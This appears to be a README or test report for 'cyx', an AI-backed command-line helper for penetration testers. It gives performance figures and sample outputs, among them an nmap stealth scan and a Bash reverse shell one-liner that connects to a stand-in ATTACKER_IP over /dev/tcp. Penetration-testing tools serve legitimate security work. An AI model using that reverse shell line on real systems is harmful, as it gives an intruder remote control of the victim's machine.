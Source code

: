 ## Performance Metrics

- **Average query time:** 2-5 seconds
- **Memory usage:** ~50MB
- **Binary size (release):** ~8MB (stripped)
- **No slowdowns or crashes during testing**

## User Experience

### Strengths
[X] **Extremely fast responses** - Perplexity sonar-pro is optimized for speed
[X] **Straight to the point** - No unnecessary explanations (normal mode)
[X] **Learn mode** - Deep educational breakdowns when needed
[X] **Source tracking** - Full transparency on provider and search capability
[X] **Commands first** - Exactly what pentesters need
[X] **Beautiful formatting** - Code blocks, tables, colored output
[X] **Easy setup** - Single command: `cyx setup`
[X] **No export commands needed** - API keys stored securely in config

### Output Quality Examples

#### Normal Mode Query: "nmap stealth scan"
```bash
nmap -sS <target>
```
-sS performs a TCP SYN (stealth) scan. Root privileges required.

**Sources shown:** Provider: Perplexity (sonar-pro), Search: Yes

#### Learn Mode Query: "nmap stealth scan"
Returns comprehensive breakdown with:
- Tool: nmap (Network Mapper) - author, license, purpose
- Flags: -sS detailed explanation with technical depth
- How it works: 4-step process explanation
- Advantages: Fast, stealthy, reliable
- Disadvantages: Requires root, detectable by modern IDS
- When to use: Default reconnaissance, root access available
- Alternatives: -sT, -sN, -sF comparison
- Examples: Multiple real-world usage scenarios
- **Sources: nmap official documentation, RFC 793 (TCP)**

#### Query: "reverse shell one liner bash"
```bash
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
```
Fastest Bash reverse shell - replace ATTACKER_IP and PORT with your listener.

**Sources shown:** Provider details and search status

## Build & Installation
